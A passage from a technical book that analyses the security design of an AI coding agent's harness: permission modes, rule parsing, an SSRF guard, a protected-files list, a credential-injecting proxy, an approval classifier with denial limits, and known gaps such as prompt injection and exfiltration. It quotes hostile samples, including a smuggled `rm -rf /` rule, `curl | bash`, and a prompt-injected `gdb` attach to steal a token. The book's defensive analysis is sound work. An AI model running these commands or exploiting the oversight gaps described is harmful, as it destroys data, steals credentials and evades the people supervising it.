    B -- default/dontAsk --> D{Rule match?}
    B -- plan --> E[Allow read-only only]
    B -- auto --> F{YOLO classifier}
    B -- acceptEdits --> G[Allow file edits + reads]

    D -- allow rule --> H[Allow]
    D -- deny rule --> I[Deny]
    D -- ask rule --> J[Prompt user]
    D -- no rule --> J

    F -- allow --> K{Denial tracking OK?}
    F -- deny --> L[Deny + record denial]
    F -- ask --> J
    K -- yes --> H
    K -- no, consecutive >= 3 --> J
    K -- no, total >= 20 --> J
```

The permission rule parser handles escaped parentheses in rule content. This is necessary because rules use the format `ToolName(content)`, and the content itself may contain parentheses (e.g., `Bash(python -c "print\(1\)")`). The `permissionRuleValueFromString` function finds the first unescaped opening parenthesis and the last unescaped closing parenthesis:

```typescript
// src/utils/permissions/permissionRuleParser.ts:L93-L133
export function permissionRuleValueFromString(
  ruleString: string,
): PermissionRuleValue {
  const openParenIndex = findFirstUnescapedChar(ruleString, '(')
  if (openParenIndex === -1) {
    return { toolName: normalizeLegacyToolName(ruleString) }
  }

  const closeParenIndex = findLastUnescapedChar(ruleString, ')')
  if (closeParenIndex === -1 || closeParenIndex <= openParenIndex) {
    return { toolName: normalizeLegacyToolName(ruleString) }
  }

  if (closeParenIndex !== ruleString.length - 1) {
    return { toolName: normalizeLegacyToolName(ruleString) }
  }

  const toolName = ruleString.substring(0, openParenIndex)
  const rawContent = ruleString.substring(openParenIndex + 1, closeParenIndex)

  if (!toolName) {
    return { toolName: normalizeLegacyToolName(ruleString) }
  }

  if (rawContent === '' || rawContent === '*') {
    return { toolName: normalizeLegacyToolName(toolName) }
  }

  const ruleContent = unescapeRuleContent(rawContent)
  return { toolName: normalizeLegacyToolName(toolName), ruleContent }
}
```

The SSRF guard for HTTP hooks implements a DNS-level check that blocks private and link-local address ranges. This prevents HTTP hooks from reaching cloud metadata endpoints (169.254.169.254) or internal infrastructure:

```mermaid
sequenceDiagram
    participant Hook as HTTP Hook
    participant SSRF as ssrfGuard
    participant DNS as dns.lookup
    participant Target as Remote Server

    Hook->>SSRF: ssrfGuardedLookup(hostname)
    SSRF->>SSRF: isIP(hostname)?
    alt IP literal
        SSRF->>SSRF: isBlockedAddress(ip)
        alt Blocked
            SSRF-->>Hook: ERR_HTTP_HOOK_BLOCKED_ADDRESS
        else Allowed
            SSRF-->>Hook: {address, family}
        end
    else Hostname
        SSRF->>DNS: dns.lookup(hostname, {all: true})
        DNS-->>SSRF: [{address, family}, ...]
        SSRF->>SSRF: Any blocked address?
        alt Blocked address found
            SSRF-->>Hook: ERR_HTTP_HOOK_BLOCKED_ADDRESS
        else All addresses OK
            SSRF-->>Hook: [{address, family}, ...]
        end
    end
```

The SSRF guard's address-blocking logic covers the critical cloud metadata endpoint ranges. Loopback (127.0.0.0/8) is intentionally allowed because local dev policy servers are a primary HTTP hook use case:

```typescript
// src/utils/hooks/ssrfGuard.ts:L55-L86
function isBlockedV4(address: string): boolean {
  const parts = address.split('.').map(Number)
  const [a, b] = parts
  if (
    parts.length !== 4 ||
    a === undefined ||
    b === undefined ||
    parts.some(n => Number.isNaN(n))
  ) {
    return false
  }

  // Loopback explicitly allowed
  if (a === 127) return false
  if (a === 0) return true              // 0.0.0.0/8
  if (a === 10) return true             // 10.0.0.0/8 private
  if (a === 169 && b === 254) return true // 169.254.0.0/16 link-local
  if (a === 172 && b >= 16 && b <= 31) return true // 172.16.0.0/12 private
  if (a === 100 && b >= 64 && b <= 127) return true // 100.64.0.0/10 CGNAT
  if (a === 192 && b === 168) return true // 192.168.0.0/16 private
  return false
}
```

The upstream proxy in CCR containers adds another security layer by MITM-ing all outbound HTTPS traffic and injecting organization-configured credentials. The `NO_PROXY_LIST` prevents the proxy from intercepting traffic to Anthropic's API, package registries, and GitHub:

```typescript
// src/upstreamproxy/upstreamproxy.ts:L37-L63
const NO_PROXY_LIST = [
  'localhost',
  '127.0.0.1',
  '::1',
  '169.254.0.0/16',
  '10.0.0.0/8',
  '172.16.0.0/12',
  '192.168.0.0/16',
  'anthropic.com',
  '.anthropic.com',
  '*.anthropic.com',
  'github.com',
  'api.github.com',
  '*.github.com',
  '*.githubusercontent.com',
  'registry.npmjs.org',
  'pypi.org',
  'files.pythonhosted.org',
  'index.crates.io',
  'proxy.golang.org',
].join(',')
```

The filesystem permission module defines dangerous files and directories that should be protected from auto-editing. These files can be used for code execution or data exfiltration:

```typescript
// src/utils/permissions/filesystem.ts:L57-L80
export const DANGEROUS_FILES = [
  '.gitconfig',
  '.gitmodules',
  '.bashrc',
  '.bash_profile',
  '.zshrc',
  '.zprofile',
  '.profile',
  '.ripgreprc',
  '.mcp.json',
  '.claude.json',
] as const

export const DANGEROUS_DIRECTORIES = [
  '.git',
  '.vscode',
  '.idea',
  '.claude',
] as const
```

The `normalizeCaseForComparison` function prevents bypass on case-insensitive filesystems (macOS, Windows) where `.cLauDe/Settings.locaL.json` would bypass a check for `.claude/Settings.local.json`:

```typescript
// src/utils/permissions/filesystem.ts:L90-L92
export function normalizeCaseForComparison(path: string): string {
  return path.toLowerCase()
}
```

## Edge cases and failure modes

**IPv4-mapped IPv6 bypass.** The SSRF guard must handle IPv4-mapped IPv6 addresses (e.g., `::ffff:169.254.169.254`) that encode blocked IPv4 ranges in an IPv6 format. Without the `extractMappedIPv4` function at `src/utils/hooks/ssrfGuard.ts:L187-L204`, an attacker could bypass the SSRF guard by using the hex-form mapped address. The function expands the IPv6 address into 8 hextets and checks whether the first 80 bits are zero, the next 16 bits are `0xffff`, and the last 32 bits encode a blocked IPv4 address. The `expandIPv6Groups` helper handles the complex address representation variations (compressed, expanded, hex groups, trailing dotted-decimal). For example, `::ffff:a9fe:a9fe` decodes to `169.254.169.254` (the AWS IMDS endpoint), which would bypass the v4 check without the v6-to-v4 extraction.

**Proxy bypasses SSRF guard.** When a global proxy or the sandbox network proxy is in use, the SSRF guard is effectively bypassed because the proxy performs its own DNS resolution (`src/utils/hooks/ssrfGuard.ts:L13-L15`). The proxy's domain allowlist serves as an alternative security boundary, but if the proxy's allowlist is more permissive than the SSRF guard's blocklist, the combined security posture is weaker than either alone. This is documented as a known limitation in the source code. The `ssrfGuardedLookup` function is used as the `lookup` option in axios request config, so the validated IP is the one the socket connects to -- there is no rebinding window between validation and connection.

**Permission rule parser and escaped parentheses.** The `permissionRuleValueFromString` function at `src/utils/permissions/permissionRuleParser.ts:L93-L133` must handle escaped parentheses in rule content (e.g., `Bash(python -c "print\(1\)")`). A malformed rule string with mismatched escapes falls back to treating the entire string as a tool name, which may produce an overly broad allow rule. The `escapeRuleContent` and `unescapeRuleContent` functions handle the bidirectional conversion, with the escaping order documented in the source code: backslashes first, then parentheses. The `findFirstUnescapedChar` and `findLastUnescapedChar` helper functions count preceding backslashes to determine whether a character is escaped (odd number of preceding backslashes = escaped).

**Auto mode circuit breaker.** The `autoModeCircuitBroken` flag in `src/utils/permissions/autoModeState.ts:L9` is set by the `verifyAutoModeGateAccess` check when it reads a fresh `tengu_auto_mode_config.enabled === 'disabled'` from GrowthBook. Once the circuit is broken, auto mode cannot be re-entered even if the user explicitly requests it. This is a safety feature: if the server-side kill switch fires (e.g., due to a security incident), the agent must not silently return to auto mode on the next GrowthBook refresh. The `_resetForTesting` function at `src/utils/permissions/autoModeState.ts:L35-L39` resets all auto mode state for test isolation.

**prctl(PR_SET_DUMPABLE, 0) in CCR.** The `setNonDumpable` function at `src/upstreamproxy/upstreamproxy.ts:L225-L252` uses Linux FFI to call `prctl(PR_SET_DUMPABLE, 0)`, blocking same-UID ptrace of the process. This prevents a prompt-injected `gdb -p $PPID` from scraping the CCR session token from the heap. The function silently no-ops on non-Linux platforms or when `bun:ffi` is unavailable. This is a defense against the "indirect prompt injection" threat class specifically within CCR containers. The `PR_SET_DUMPABLE` constant (value 4) is the Linux kernel's prctl option for controlling whether a process can be traced.

**Legacy tool name aliases.** The `LEGACY_TOOL_NAME_ALIASES` mapping at `src/utils/permissions/permissionRuleParser.ts:L21-L29` ensures that permission rules written against old tool names (e.g., `Task` instead of `Agent`) still resolve correctly. Without this mapping, a user who wrote an allow rule for `Task(npm test)` before the rename would find that the rule no longer matches `Agent(npm test)`, silently reducing their security posture. The `normalizeLegacyToolName` function applies this mapping at every rule parse point, ensuring backward compatibility across tool renames.

**Dangerous files and directory protection.** The `DANGEROUS_FILES` list at `src/utils/permissions/filesystem.ts:L57-L68` protects files that can be used for code execution or data exfiltration from auto-editing. This includes shell configuration files (`.bashrc`, `.zshrc`), git configuration (`.gitconfig`), and cc's own configuration (`.mcp.json`, `.claude.json`). The `DANGEROUS_DIRECTORIES` list at `src/utils/permissions/filesystem.ts:L74-L79` protects `.git` (which contains hooks that can execute arbitrary code), `.vscode` and `.idea` (which contain task configurations that can execute code), and `.claude` (which contains settings and hooks). When the agent attempts to edit a file in one of these directories, the permission system requires explicit user approval even in acceptEdits mode.

The `ssrfGuardedLookup` function is designed as a drop-in replacement for the `dns.lookup` option in axios request configurations. It resolves the hostname, validates all resulting addresses against the blocked ranges, and returns the validated addresses. If any address is blocked, the function returns an error with code `ERR_HTTP_HOOK_BLOCKED_ADDRESS` that includes both the hostname and the blocked address for diagnostic purposes (`src/utils/hooks/ssrfGuard.ts:L216-L283`). The function handles both the `all: true` variant (returning an array of addresses) and the single-address variant, matching the signature expected by axios.

The IPv6 blocking logic handles the complex address representation variations. The `isBlockedV6` function checks for `::` (unspecified), `fc00::/7` (unique local), `fe80::/10` (link-local), and IPv4-mapped addresses. The `expandIPv6Groups` function normalizes any valid IPv6 representation into exactly 8 hex groups, handling compressed notation (`::`), trailing dotted-decimal IPv4, and partial expansion. This normalization is necessary because the same address can be represented in multiple ways (e.g., `::ffff:169.254.169.254` and `0:0:0:0:0:ffff:a9fe:a9fe` represent the same address), and the `extractMappedIPv4` function must handle all of them (`src/utils/hooks/ssrfGuard.ts:L127-L204`).

The SSRF guard's IPv6 handling includes a comprehensive `expandIPv6Groups` function that normalizes any valid IPv6 representation into exactly 8 hex groups. The function handles three cases: no `::` (fully expanded), `::` at the beginning (leading zeros), and `::` in the middle (compressed zeros). When the address includes a trailing dotted-decimal IPv4 (e.g., `::ffff:169.254.169.254`), the function converts the four octets into two hex groups and appends them to the expanded result (`src/utils/hooks/ssrfGuard.ts:L133-L179`). The expansion is defensive: malformed addresses return `null`, and the caller (`extractMappedIPv4`) treats `null` as "not an IPv4-mapped address," which means the address is not blocked by the v4 check. This conservative default errs on the side of allowing traffic rather than blocking legitimate addresses.

The `ssrfError` function generates a descriptive error message when a blocked address is detected. The error includes both the hostname and the resolved IP address, along with a note that loopback addresses (127.0.0.1, ::1) are allowed for local development (`src/utils/hooks/ssrfGuard.ts:L285-L294`). The error code `ERR_HTTP_HOOK_BLOCKED_ADDRESS` allows calling code to distinguish SSRF guard errors from other network errors and handle them appropriately (e.g., by logging a specific warning or falling back to an alternative endpoint).

The CCR upstream proxy relay (`src/upstreamproxy/relay.ts`) implements a CONNECT-over-WebSocket tunnel that forwards TCP connections from localhost through a WebSocket to the CCR server-side infrastructure. The server-side terminates the tunnel, MITMs TLS to inject organization-configured credentials (e.g., DD-API-KEY), and forwards to the real upstream. The protocol wraps bytes in `UpstreamProxyChunk` protobuf messages for compatibility with the server-side `WebSocketStreamAdapter` (`src/upstreamproxy/relay.ts:L16-L17`). The `encodeChunk` and `decodeChunk` functions implement the protobuf wire format by hand (tag byte `0x0a`, varint length, data bytes) to avoid a runtime dependency on protobufjs (`src/upstreamproxy/relay.ts:L66-L99`).

The `initUpstreamProxy` function in CCR containers orchestrates the full security setup sequence. It reads a session token from `/run/ccr/session_token`, calls `setNonDumpable()` to block ptrace, downloads the MITM CA certificate, starts a local CONNECT-to-WebSocket relay, and then unlinks the token file. The token file is only unlinked after the relay is confirmed up, so a supervisor restart can retry if the relay fails to start (`src/upstreamproxy/upstreamproxy.ts:L79-L153`).

The `getUpstreamProxyEnv` function generates the environment variables that all agent subprocesses inherit. When the proxy is enabled, it sets `HTTPS_PROXY`, `SSL_CERT_FILE`, `NODE_EXTRA_CA_CERTS`, `REQUESTS_CA_BUNDLE`, and `CURL_CA_BUNDLE` to ensure that all HTTP clients (Node, Python, curl) trust the MITM CA. The `NO_PROXY` list prevents the proxy from intercepting traffic to Anthropic's API and package registries (`src/upstreamproxy/upstreamproxy.ts:L160-L199`).

When the proxy is disabled but the parent process has proxy variables (inherited from a CCR container's parent process), `getUpstreamProxyEnv` passes through the inherited variables so child processes can still route through the parent's relay (`src/upstreamproxy/upstreamproxy.ts:L167-L183`). This handles the case where a child CLI process is spawned after the parent has already set up the proxy.

The `classifyBashCommand` function in the bash classifier stub returns `{matches: false, confidence: 'high', reason: 'This feature is disabled'}` for all inputs in external builds (`src/utils/permissions/bashClassifier.ts:L40-L53`). This means that external builds never use the LLM-based command classifier -- they rely entirely on the deterministic permission rules and user prompts. The classifier is only active in ant builds where the `TRANSCRIPT_CLASSIFIER` feature flag is enabled.

The `rollRarity` function implements a weighted random selection from rarity tiers. The `RARITY_WEIGHTS` constant (imported from `./types.js`) defines the probability of each rarity: common is most likely, legendary is rarest. The total weight is computed, a uniform random value is generated, and the rarity is selected by walking the weight distribution until the accumulated weight exceeds the roll (`src/buddy/companion.ts:L43-L51`).

## Where cc diverges from the published pattern

HER Section 12.1 describes five layers of defense-in-depth. cc implements all five but with uneven depth:

- **Layer 1 (Prompt-level)**: cc's system prompt includes instructions about what not to do (e.g., "never commit .env files"), but these are soft constraints that the model can ignore. HER recommends prompt-level guardrails as the outermost layer, acknowledging they are the weakest.

- **Layer 2 (Schema-level)**: cc uses Zod schemas for tool input validation. Invalid inputs are rejected before the tool executes. This is well-implemented and covers all built-in tools.

- **Layer 3 (Runtime approval)**: This is cc's strongest layer. The permission mode system, classifiers, denial tracking, and user prompts provide a comprehensive approval pipeline. HER describes "human-in-the-loop for destructive operations"; cc goes further with the auto mode classifier that can approve or deny without human intervention based on LLM-judged risk.

- **Layer 4 (Tool-level validation)**: Each tool implements `checkPermissions()` with custom logic. The BashTool's `bashSecurity.ts` (2,592 LOC), `bashPermissions.ts` (2,621 LOC), and `readOnlyValidation.ts` (1,990 LOC) represent the most thorough tool-level validation in the codebase. But not all tools are equally validated; the TodoWrite tool, for example, has minimal safety checks.

- **Layer 5 (Lifecycle hooks)**: cc's PreToolUse and PostToolUse hooks allow deterministic shell commands at lifecycle events. This is precisely the pattern HER recommends. However, hooks are user-configured and cannot be enforced by the agent itself -- a user who does not configure security hooks has no Layer 5 protection.

HER Section 12.4 describes specific threat classes. cc's coverage varies:

- **Indirect prompt injection**: cc treats file contents and tool outputs as context, not as instructions. There is no input sanitization on external content (files read, web pages fetched, MCP responses). The SSRF guard blocks private-network requests from HTTP hooks, but it does not sanitize the content of responses. This is a known gap.

- **Supply chain attacks via MCP/Skills**: cc loads MCP servers and skills from user-configured paths. There is no automated vetting, sandboxing, or audit of MCP server behavior. The `MCPTool` wrapper passes MCP responses directly into the model context without sanitization. This is the largest gap in cc's security posture.

- **System prompt leakage**: The system prompt is included in the model context and could potentially be extracted by a sufficiently adversarial prompt. cc does not implement post-processing filters on model output to detect or redact leaked system prompt content.

- **Data exfiltration through tool calls**: The SSRF guard prevents HTTP hooks from reaching private networks, but the Bash tool, WebFetch tool, and MCP tools can all make outbound requests to public endpoints. The permission system gates these on user approval (in default mode) or classifier approval (in auto mode), but there is no content inspection of outbound data for sensitive patterns.

- **Checkpoint-restore attacks**: cc's session persistence (JSONL format, covered in Chapter 29) does not implement idempotency keys for external operations. If a session is restored after an irreversible tool effect (e.g., a payment API call), the agent may repeat the action. HER Section 12.6 recommends idempotency for all external operations; cc does not implement this.

HER Section 12.2 describes the GUARDRAILS.md protocol, which uses a Sign structure (Trigger, Instruction, Reason, Provenance) for documenting guardrails. cc does not implement GUARDRAILS.md. Its closest equivalent is the `.claude/settings.json` permission rules, which define allow/deny/ask behaviors per tool, but without the structured documentation (trigger, reason, provenance) that GUARDRAILS.md prescribes.

HER Section 12.3 describes four universal safety patterns: artifact verification, context rotation, privilege boundaries, and rate limiting. cc implements context rotation (via the compaction hierarchy, Chapter 28) and privilege boundaries (via permission modes and tool-level checks). Rate limiting exists at the API level (Anthropic's rate limits) but not at the agent level (there is no internal rate limiter that prevents the agent from calling a tool N times per minute). Artifact verification is left to the model's judgment in subsequent turns.

HER Section 12.5 describes the "defense-in-depth audit trail" pattern, where each layer must log its decisions for post-hoc analysis. cc partially implements this: the permission system logs allow/deny decisions to the debug log, and the tool dispatch pipeline records tool call results in the JSONL transcript. However, the YOLO classifier's reasoning (why it approved or denied a specific command) is not logged in a structured form. The classifier returns a confidence score and a reason string, but these are not persisted to the debug log in a way that supports automated audit analysis. For a production agent that makes thousands of automated approval decisions per day, this gap means that a post-incident review cannot reconstruct the classifier's reasoning chain without reproducing the exact input.

The permission mode system's `plan` mode deserves special attention in the context of HER Section 12.3's "privilege boundaries" pattern. Plan mode restricts the agent to read-only operations, which means the agent can explore the codebase but cannot modify it. This is analogous to a database read replica: the agent can observe state but cannot mutate it. The restriction is enforced at the tool dispatch level, not at the model level -- the model may request a write operation, but the permission system will deny it. This separation between intent (the model's request) and enforcement (the permission system's decision) is precisely what HER recommends: the model should not be trusted to self-restrict, and the enforcement layer should be independent of the model's reasoning.

The `acceptEdits` mode occupies a middle ground that HER does not explicitly describe. It allows file edits (which can modify the codebase) but still requires approval for shell commands (which can execute arbitrary code). This distinction recognizes a practical security boundary: file edits are reversible (via git), while shell commands may have irreversible side effects. However, this boundary is not absolute -- a file edit to `.bashrc` or `.git/hooks/pre-commit` can achieve code execution just as effectively as a direct shell command. The `DANGEROUS_FILES` list at `src/utils/permissions/filesystem.ts:L57-L68` partially addresses this by protecting shell configuration files, but it does not protect all files that can achieve code execution (e.g., a `Makefile` with a `test` target that runs `curl | bash`).

The `auto` mode's YOLO classifier represents cc's most significant departure from HER's recommended approach to runtime approval. HER Section 12.3 describes privilege boundaries as a static property (the agent either can or cannot perform an operation), but the YOLO classifier makes this a dynamic, context-dependent decision. The classifier evaluates each command in the context of the current task and makes a risk assessment. This is more flexible than static boundaries but also more opaque: the same command may be approved in one context and denied in another, and the user cannot predict which context will trigger which outcome without understanding the classifier's internal logic.

## Developer takeaways for building a long-running agent

1. **The five-layer model is necessary but not sufficient.** cc implements all five layers of HER's defense-in-depth, yet still has gaps in supply-chain security and checkpoint-restore safety. For long-running agents, defense-in-depth must be complemented by threat-specific mitigations (idempotency keys for checkpoint-restore, content inspection for data exfiltration, input sanitization for prompt injection).

2. **Denial tracking is a critical safety net for automated approval.** The `DENIAL_LIMITS` of 3 consecutive denials or 20 total denials (`src/utils/permissions/denialTracking.ts:L12-L15`) ensure that if the YOLO classifier repeatedly denies requests, the system falls back to human prompting. For long-running agents, any automated approval system must have a circuit breaker that defaults to human review when the automation appears confused or compromised.

3. **DNS-level SSRF protection must handle IPv6 bypass vectors.** The `extractMappedIPv4` function at `src/utils/hooks/ssrfGuard.ts:L187-L204` demonstrates that blocking private IPv4 ranges is insufficient if the agent can reach the same addresses via IPv4-mapped IPv6 representations. For long-running agents, every SSRF guard must handle all address representation formats, including hex-form mapped addresses.

4. **Kill switches must be irrevocable within a session.** The `autoModeCircuitBroken` flag at `src/utils/permissions/autoModeState.ts:L9` prevents re-entry into auto mode after a server-side kill switch fires. For long-running agents, any kill switch that can be silently reversed by a network refresh or a GrowthBook payload change is not a kill switch -- it is a suggestion. Once a safety-critical gate is tripped, the agent must require a full restart to re-enable the gated feature.

5. **Proxy-based MITM is a powerful but fragile security boundary.** The CCR upstream proxy (`src/upstreamproxy/upstreamproxy.ts`) intercepts all outbound HTTPS, injects credentials, and enforces a domain allowlist. But the proxy's security depends on the NO_PROXY list being complete and the CA bundle being trusted by all subprocess runtimes (Python, Node, curl). For long-running agents, proxy-based security must be complemented by application-level checks (SSRF guards, content inspection) because the proxy can be bypassed by runtime-specific certificate handling.

6. **Dangerous pattern lists must be platform-aware and updated regularly.** The `CROSS_PLATFORM_CODE_EXEC` list at `src/utils/permissions/dangerousPatterns.ts:L18-L42` includes interpreters and package runners that exist on both Unix and Windows. The ant-only extensions add cloud and network tools. For long-running agents, the dangerous pattern list is a living document: new interpreters, package runners, and cloud tools appear regularly, and the list must be updated to keep pace. A stale dangerous pattern list provides a false sense of security.

7. **The `normalizeCaseForComparison` pattern prevents case-insensitive filesystem bypass.** The function at `src/utils/permissions/filesystem.ts:L90-L92` lowercases paths before comparison, preventing attacks like `.cLauDe/Settings.locaL.json` on macOS (case-insensitive by default) or mixed-case `.Git` directories on Windows. For long-running agents running on multiple platforms, every path-based security check must normalize case before comparison, or the check can be trivially bypassed by mixing uppercase and lowercase characters in the path.

8. **Session token unlink timing is a security-critical sequencing decision.** The CCR upstream proxy only unlinks the session token file after the relay is confirmed up (`src/upstreamproxy/upstreamproxy.ts:L139-L144`). If the token were unlinked before the relay started, a relay failure would leave the process without a token and without a working proxy. If the token were never unlinked, the agent loop could read the token from the filesystem. The "unlink after confirmation" pattern ensures that the token exists on disk for retry but is removed before the agent loop can access it. For long-running agents, any secret that must be both available during initialization and invisible during operation should follow this pattern: read the secret, set up the infrastructure that uses it, then delete the file.

9. **The `escapeRuleContent` and `unescapeRuleContent` functions prevent injection through permission rules.** Permission rules use the format `ToolName(content)`, where the content is user-supplied. Without proper escaping, a user could craft a rule like `Bash() ); rm -rf / #` that breaks the parsing and produces unexpected behavior. The `escapeRuleContent` function escapes backslashes first, then parentheses, and the `unescapeRuleContent` function reverses the process in the opposite order (parentheses first, then backslashes). This ordering is critical: escaping backslashes first ensures that a backslash used to escape a parenthesis is not itself double-escaped (`src/utils/permissions/permissionRuleParser.ts:L55-L79`).

10. **The `getSkillNameForPermissionCheck` pattern provides scoped permissions for skill directories.** The filesystem permission module includes logic that detects when a file path is inside a `.claude/skills/{name}/` directory and returns a narrower session-allow pattern scoped to just that skill (`src/utils/permissions/filesystem.ts:L93-L100`). This allows the permission dialog to offer a "allow edits to this skill only" option, so iterating on one skill does not require granting session access to all of `.claude/` (which contains settings.json, hooks, and other sensitive files). For long-running agents, scoped permissions reduce the blast radius of any single permission grant -- a pattern that should be applied to any directory that contains both user-editable content and sensitive configuration.
# Part X. Synthesis and Future Development

The first nine parts of this book examined cc's subsystems one at a time: the runtime spine, the tool system, multi-agent dispatch, context management, safety, interaction surfaces, long-running work, and observability. Part X steps back and asks the big questions: Which design patterns does cc embody? Where does it defend against known failure modes, and where does it fall short? What would a reference architecture for trustworthy long-running agents look like? And what should you build next?

The theme of Part X is synthesis -- bringing together the detailed analysis of the previous forty-nine chapters into a coherent evaluation of cc as a whole and a forward-looking roadmap for the discipline. These five chapters are grouped together because they are meta-chapters: instead of analyzing source code, they analyze the architecture itself, using HER's framework of patterns, failure modes, best practices, and reference architecture as the evaluation lens.

Synthesis is where the value of this book accumulates. The individual chapters provide detailed evidence about specific subsystems, but evidence without evaluation is just data. These five chapters evaluate that evidence against a rigorous theoretical framework, identifying where cc excels, where it falls short, and what the implications are for the discipline of harness engineering as a whole. They are the chapters that transform this book from a source-code tour into an engineering argument.

Chapter 53 maps all twelve HER patterns to cc's concrete implementations, with one section per pattern covering the pattern description, cc's implementation with file paths, divergences, gaps, and lessons learned. The twelve patterns -- from Pattern 1 (Stateless Core) through Pattern 12 (Deterministic Lifecycle Hooks) -- represent the accumulated wisdom of the harness engineering discipline. This chapter evaluates how faithfully cc implements each pattern, where it diverges and why, and what the divergences teach us about the gap between theory and practice.

Chapter 54 examines the seventeen HER failure modes, with one subsection per failure mode covering cc's defense (or absence of defense) and specific file and line evidence. The seventeen failure modes -- from Context Rot (6.1) through Checkpoint-Restore Side Effects (6.16) and Hallucinated Tool Calls (6.12) -- represent the known ways that long-running agents fail. This chapter evaluates how well cc defends against each failure mode, where its defenses are strong, and where gaps remain that future implementations must address.

Chapter 55 uses HER's eight-layer reference architecture and cc's concrete implementations as a guide to sketch the architecture of a future launch-and-trust coding agent. The eight layers -- from Layer 1 (Model Interface) through Layer 8 (Learning and Adaptation) -- represent the ideal architecture for a trustworthy autonomous system. This chapter maps cc's components onto these layers, identifies which layers are well-covered and which are thin or missing, and proposes concrete additions that would bring cc closer to the reference architecture.

Chapter 56 provides a concrete roadmap for a team building on top of the cc codebase: what to keep, what to rewrite, and what to add. This chapter is opinionated and prescriptive: it does not merely list options but recommends specific actions based on the analysis in the previous fifty-five chapters. It covers the quality-gates pipeline that should be added, the architectural changes that should be made, and the new capabilities that should be developed to transform cc from a capable agent into a trustworthy one.

Chapter 57 closes the book with reflections on what cc proves and disproves about the discipline of harness engineering, open research questions, and a call to action. This chapter steps back from the technical details to address the bigger picture: what does the existence of a production-grade agent harness teach us about the discipline? What questions remain open? And what should the community do next to advance the state of the art?

By the end of this Part, you should have a comprehensive understanding of how cc maps to the HER framework: which patterns it implements well, which failure modes it defends against, where its gaps lie, and what a next-generation architecture would look like. You should also have an actionable roadmap for building on top of cc's codebase and a sense of the open research questions that the discipline of harness engineering must address.

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# The 12 HER Patterns Mapped to CC

## Overview

The Harness Engineering Report (HER) distilled 12 recurring architectural patterns from reverse-engineering Claude Code's codebase. These patterns are not abstract ideals -- they are concrete implementation decisions observed in a production system serving millions of sessions. This chapter maps each pattern to the specific subsystems, files, and mechanisms inside cc, noting where the implementation diverges from the published description and where gaps remain.

The 12 patterns fall into four families: **Memory and Context** (Patterns 1-5), **Workflow and Orchestration** (Patterns 6-8), **Tools and Permissions** (Patterns 9-11), and **Automation** (Pattern 12). The mapping below is ordered by family, then by pattern number. For each pattern, we trace the HER description to the implementing source file, show the data contract that grounds the pattern, and evaluate where cc's implementation exceeds, meets, or falls short of the published description.

```mermaid
erDiagram
    PATTERN_FAMILY ||--o{ PATTERN : contains
    PATTERN ||--o{ CC_SUBSYSTEM : "implemented by"
    PATTERN_FAMILY {
        string name
        int pattern_count
    }
    PATTERN {
        int number
        string name
        string her_section
    }
    CC_SUBSYSTEM {
        string module_path
        string key_file
        string mechanism
    }
    P01_PersistentInstructionFile ||--o{ CC_SUBSYSTEM : "claudemd_ts"
    P02_ScopedContextAssembly ||--o{ CC_SUBSYSTEM : "claudemd_ts_prompts_ts"
    P03_TieredMemory ||--o{ CC_SUBSYSTEM : "memdir_ts_findRelevantMemories_ts"
    P04_DreamConsolidation ||--o{ CC_SUBSYSTEM : "autoDream_ts_DreamTask_ts"
    P05_ProgressiveContextCompaction ||--o{ CC_SUBSYSTEM : "compact_ts_microCompact_ts"
    P06_ExplorePlanActLoop ||--o{ CC_SUBSYSTEM : "planModeV2_ts_query_ts"
    P07_ContextIsolatedSubagents ||--o{ CC_SUBSYSTEM : "AgentTool_tsx_runAgent_ts"
    P08_ForkJoinParallelism ||--o{ CC_SUBSYSTEM : "forkSubagent_ts_worktree_ts"
    P09_ProgressiveToolExpansion ||--o{ CC_SUBSYSTEM : "ToolSearchTool_ts"
    P10_CommandRiskClassification ||--o{ CC_SUBSYSTEM : "bashSecurity_ts_bashClassifier_ts"
    P11_SinglePurposeToolDesign ||--o{ CC_SUBSYSTEM : "Tool_ts_tools_ts"
    P12_DeterministicLifecycleHooks ||--o{ CC_SUBSYSTEM : "hooks_ts_schemas_hooks_ts"
```

The diagram above shows the structural relationship between patterns and subsystems. A single subsystem often implements multiple patterns: `claudemd.ts` underpins both Pattern 1 (Persistent Instruction File) and Pattern 2 (Scoped Context Assembly); `memdir.ts` and `findRelevantMemories.ts` together implement Pattern 3 (Tiered Memory). This overlap is not accidental -- the patterns were extracted from a single codebase, and their boundaries reflect posterior decomposition rather than independent design.

## Data structures and contracts

Each pattern depends on a specific data contract. The most foundational is the memory type system that underpins Patterns 1 through 4.

```typescript
// src/memdir/memoryTypes.ts:L14-L19 — Memory type taxonomy
export const MEMORY_TYPES = [
  'user',
  'feedback',
  'project',
  'reference',
] as const

export type MemoryType = (typeof MEMORY_TYPES)[number]
```

The four-type taxonomy is deliberately constrained. As the file header at `src/memdir/memoryTypes.ts:L1-L12` explains, it excludes information derivable from code or git history, reserving memory for context that would otherwise be lost between sessions. The `parseMemoryType` function at `src/memdir/memoryTypes.ts:L28-L31` returns `undefined` for unknown types, allowing legacy files without a `type:` field to degrade gracefully rather than breaking the session.

The memdir index contract enforces hard limits that shape every downstream retrieval:

```typescript
// src/memdir/memdir.ts:L34-L38 — Memory index caps
export const ENTRYPOINT_NAME = 'MEMORY.md'
export const MAX_ENTRYPOINT_LINES = 200
export const MAX_ENTRYPOINT_BYTES = 25_000
const AUTO_MEM_DISPLAY_NAME = 'auto memory'
```

The `MEMORY.md` file serves as a compact index -- always loaded into the system prompt -- with a hard 200-line and 25KB cap. The `truncateEntrypointContent` function at `src/memdir/memdir.ts:L57-L103` enforces both caps simultaneously, line-truncating first (natural boundary), then byte-truncating at the last newline before the cap so it never cuts mid-line. A warning is appended naming which cap fired, so the model knows content was elided.

The hook schema contract governs Pattern 12, defining five hook types each with Zod-validated input. The `BashCommandHookSchema` (defined in Chapter 36, "Data structures and contracts" at `src/schemas/hooks.ts:L32-L65`) defines the primary hook type with fields for shell selection, timeout, background execution (`async`), and the async-rewake pattern (`asyncRewake`) that wakes the model on exit code 2. The remaining four hook types -- `PromptHookSchema`, `HttpHookSchema`, `AgentHookSchema`, and `FunctionHookSchema` -- follow the same structure with type-specific fields (prompt text, URL, agent definition, function reference). All five share the `if` condition field, which uses permission-rule syntax (e.g., `Bash(git *)`) to filter hooks before spawning -- a key optimization that avoids spawning shell processes for non-matching tool calls. The `IfConditionSchema` factory at `src/schemas/hooks.ts:L19-L27` produces a shared optional string that all five hook types reference.

The Tool input contract underpins Pattern 11, defining how every tool exposes itself to the model:

```typescript
